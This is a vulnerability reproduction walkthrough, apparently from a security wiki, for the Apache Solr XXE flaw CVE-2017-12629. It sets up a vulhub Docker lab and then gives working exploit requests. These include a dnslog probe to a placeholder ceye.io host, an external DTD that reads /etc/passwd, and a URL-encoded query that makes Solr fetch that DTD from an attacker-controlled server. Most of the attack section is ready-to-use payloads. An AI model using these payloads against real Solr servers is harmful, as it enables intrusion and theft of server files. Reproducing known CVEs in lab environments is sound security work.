 ```yaml
---
title: Apache Solr XXE vulnerability CVE-2017-12629
---
```


# Apache Solr XXE Vulnerability CVE-2017-12629

## Vulnerability Description

Apache Solr is an open source search server. 

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr < 7.1</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Lucene < 7.1</span>

## Environment construction
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## Vulnerability reappears
First request the url address to obtain core content

```
/solr/admin/cores
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220307150410724.png)

Send a request

```
/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "https://xxxxx.ceye.io"><a></a>'}&wt=xml
```

Check dnslog to get request

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/b7254e29-c3a3-4654-b960-10f1a3589021.png)

Write an accessible XML file on your own server and write the contents into

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

Then request this file to read the file on the server

```
/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fxxx.xxx.xxx.xxx%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/277c42b0-7152-457b-b4f2-faee9dc4849f.png)

Note that the payload here is url encoding, and the requested file is `https://xxx.xxx.xxx.xxx/1.dtd`. There are more needs to change the written xml file by yourself.

